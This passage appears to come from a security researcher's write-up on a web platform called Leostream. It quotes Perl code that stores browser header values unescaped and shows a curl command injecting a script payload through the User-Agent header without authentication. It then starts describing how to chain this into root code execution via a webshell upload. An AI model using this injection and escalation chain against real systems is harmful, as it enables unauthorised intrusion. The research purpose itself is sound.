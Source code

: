 ```perl
# Return a Client-formatted recordset about the current browser
sub browser_client {
    my $cg = Session->cg;
    my $ua = $cg->user_agent();
    my $make = parse_user_agent($ua);
    my $h = Client->new(-new=>1)->data;
    $h->{name} = substr($make, 0, 255);
    $h->{client_type} = 'browser';
    $h->{manufacturer} = ($ua =~ /\b(?:MSIE|Trident|Edge)\b/ ? 'Microsoft' : 'Other');
    $h->{device} = 'Web browser';
    $h->{device_version} = substr($ua, 0, 4095);
    $h->{client_language} = substr($ENV{HTTP_ACCEPT_LANGUAGE}, 0, 100);
    $h->{client_token} = '';
    $h->{display_count} = 0;
    $h->{location} = '';
    $h->{ip} = substr($ENV{REMOTE_ADDR}, 0, 20);
    $h->{http_header} = http_header_string();

    # FIXME: for language, return as pretty string.  For example, parse:
    # for i in /usr/share/i18n/locales/*; do echo $i; perl -ne '(/^language/ || /^territory/) && print' $i; echo ""; done
    return $h;
}
```

It takes a lot of fields that are controlled by us and, in the end, they are going to be saved to the database as we saw before. The strings are not escaped before they are stored in the database, and also they are not escaped when they are rendered in the web, so we have a stored XSS. 

But... this information is stored before the login credentials are checked, **so we can inject our payload without authentication :)**

```
curl http://remote-target/webquery.pl\?action\=run\&method\=qselect\&user\=AdeptsOf0xCC\&password\=RKL -H "User-Agent: <script>alert(/pwned/)</script>"
```

As we said before, this same code pattern can be spoted in other files.

# Turning the lousy XSS into a RCE as root :)

The recipe to turn a XSS into a RCE in any web platform usually is the same:
- 4oz plugin uploader
- A few drops of injected JavaScript

But this time our XSS-To-RCE-cupcake has a twist: internal URLs are protected by a digest to avoid anti-tampering, so we can not just upload our webshell directly with a request. Let's dig a bit on this.

Leostreams protects the URLs from tampering adding a parameter, `r`, with a digest value that is generated via `digest_of_url` from `libMisc.pm`:

```perl
...
my $digest = md5_base64((join '!',
                             grep {/^(mb_|action|r|[^=]*[u_]id)/}
                             split /[;&]/, $url)
                            . $digest_secret);

    # Take only the first 7 url-safe characters.  (In tests with an unchanging r value,
    # this algorithm produced only 2 duplicate keys in 3,000,000 uid/thing_id combinations.)
    $digest =~ s/[^a-zA-Z0-9_.-]//g;
    $digest = substr($digest,0,7);

    return $digest;
```
